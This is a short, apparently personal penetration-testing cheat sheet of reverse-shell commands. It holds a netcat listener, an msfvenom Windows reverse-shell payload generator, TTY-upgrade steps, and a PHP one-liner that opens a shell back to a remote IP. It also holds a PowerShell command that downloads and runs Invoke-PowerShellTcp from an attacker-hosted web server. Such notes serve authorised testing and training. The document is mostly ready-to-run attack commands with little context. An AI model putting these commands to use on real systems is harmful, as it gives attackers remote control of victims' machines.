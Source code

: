 ```yaml
---
title: REVERSE SHELLS
updated: 2023-11-26 10:58:14Z
created: 2023-10-24 10:19:41Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


# Netcat Listener
`rlwrap nc -nlvp 666`

# Generate Reverse Shell for buffer-overflow payload
1. For access to a windows host or file system
`msfvenom -p windows/shell_reverse_tcp LHOST=<HackerIP> LPORT=666 -f python -b '\x00'`


# Upgrading Shell
If linux shell comes back with no tty escape
`python -c 'import pty; pty.spawn("/bin/bash")'`
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`CTRL-Z` to put process in backgroup
`stty raw -echo`
`fg`
`fg`
`export TERM=xterm`

# PHP Reverse Shell - 1 liner
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

# TTY Escape
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

(inside the nc session) 
**CTRL+Z**
**stty raw -echo**
**fg**
**ls**
**export SHELL=/bin/bash**
**export TERM=screen**
**stty rows 38 columns 116**
**reset**

# PowerShell reverse shell

```
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <kali> -Port 443' >>
Invoke-PowerShellTcp.ps1
```
`python3 -m http.server 80`

On target:
```
powershell -c iex(new-object net.webclient).downloadstring('http://<kali>/Invoke-PowerShellTcp.ps1’)
```